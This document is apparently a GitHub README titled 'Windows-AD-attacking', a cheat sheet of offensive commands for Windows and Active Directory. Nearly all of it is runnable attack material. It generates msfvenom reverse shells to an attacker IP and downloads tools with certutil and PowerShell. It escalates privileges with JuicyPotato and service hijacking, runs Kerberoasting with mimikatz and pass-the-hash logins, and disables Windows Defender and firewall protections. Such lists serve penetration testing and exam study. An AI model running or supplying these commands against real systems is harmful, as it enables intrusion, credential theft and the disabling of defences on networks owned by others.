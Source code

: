 # Windows-AD-attacking

Anything about **Windows / Active Directory** will be posted here ..

&nbsp;
&nbsp;

## < Generate shells >

&nbsp;
&nbsp;


**[+] Create reverse shell using msfvenom**

```
// Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe
// TCP
msfvenom -p  windows/shell/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe
```

&nbsp;
&nbsp;

## < Transfer files >

&nbsp;
&nbsp;


**[+] Upload file using Powershell**

```
powershell.exe $ProgressPreference = 'SilentlyContinue'; Invoke-WebRequest http://192.168.50.48/ASREPRoast.ps1 -OutFile C:\users\hitman\ASREPRoast.ps1
```

**[+] Upload file using certutil.exe**

```
certutil.exe -urlcache -f http://192.168.50.48/Rubeus.exe C:\users\hitman\Rubeus.exe
```

**[+] Transfer files using rdesktop tool (Available in Kali Linux)**

```
- In Kali linux
mkdir /home/hitman/shared
rdesktop -f 192.168.50.48 -r disk:linux=/home/hitman/shared
- Now in Windows's RDP
Go to Network Places -> Entire Network -> Microsoft Terminal Services -> tsclient
and put your files there, you will find them in Kali too
Note: You can access the share \\tsclient directly too
```

&nbsp;
&nbsp;

## < Privilege escalation >

&nbsp;
&nbsp;


**[+] Privilege escalation using juicy potato (Sometimes you need to attach CLSID)**

```
JuicyPotato.exe -l 13373 -p c:\windows\system32\cmd.exe -a "/c c:/users/public/reverse.exe" -t *
```

**[+] PowerUp.ps1 "Good powershell script for windows privilege escalation"**

```
C:> powershell.exe -nop -exec bypass

PS C:\> Import-Module PowerUp.ps1

PS C:\> Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
```

**[+] Weak service permissions privilege escalation**

```
C:\Users\victim\Desktop>accesschk64 -uwcqv "victim" *

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

RW SNMPTRAP
        SERVICE_ALL_ACCESS

C:\Users\victim\Desktop>sc qc SNMPTRAP

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SNMPTRAP
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\snmptrap.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : SNMP Trap
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\victim\Desktop>sc config SNMPTRAP binpath= "net localgroup administrators victim /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc config SNMPTRAP obj= ".\LocalSystem" password= ""

[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc start SNMPTRAP
```

&nbsp;
&nbsp;

## < Kerberos / tickets >

&nbsp;
&nbsp;


**[+] Request Ticket (powershell)**

```
Add-Type -AssemblyName System.IdentityModel  

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLService/ufc-db1.us.funcorp.local"  
```

**[+] Export Tickets using mimikatz**

```
mimikatz # kerberos::list /export  
```

**[+] Crack ticket using Tgsrepcrack.py (You can use john too or hashcat)**

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.hitmanalharbi.local~1433-boo.LOCAL.kirbi  
```

**[+] Kerberos Double-Hop problem**

```
Invoke-Command -ComputerName UFC-JUMPSRV -Credential $cred -ScriptBlock {
    Invoke-Command -ComputerName UFC-WEBPROD -Credential $Using:cred -ScriptBlock {
		& cmd /c "hostname"    
    }
} 
```

&nbsp;
&nbsp;

## < Pass the hash / PTH >

&nbsp;
&nbsp;


**[+] Pass the hash using pth-winexe (Available in Kali Linux)**

```
pth-winexe -U USER%aad3b435b51404eeaad3b435b51404ee:NTLM //IP cmd
```

**[+] Access RDP using pass the hash (xfreerdp tool)**

```
xfreerdp /u:username /pth:NTLM /d:domain /v:IP
```

**[+] Pass the hash using PsExec.py**

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:NTLM sqldevadmin@192.168.50.49
```

&nbsp;
&nbsp;

## < Enumeration >

&nbsp;
&nbsp;


**[+] enum SMB shares using smbclient (Smbclient available in Kali Linux)**

```
smbclient -L IP
```

**[+] Sharphound command (For bloodhound)**

```
// EXE version
./SharpHound.exe --CollectionMethod All

// Powershell version
Invoke-BloodHound -CollectionMethod All
```

&nbsp;
&nbsp;

## < Bypass security / AV evasion >

&nbsp;
&nbsp;


**[+] Bypass Powershell Execution Policy**

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted

or run powershell like this:

powershell.exe -ep bypass
```

**[+] Disable windows defender**

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableRealtimeMonitoring /t REG_DWORD /d 1

powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true
```

&nbsp;
&nbsp;

## < Misc commands >

&nbsp;
&nbsp;


**[+] Enable RDP and allow it in the firewall too**

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```
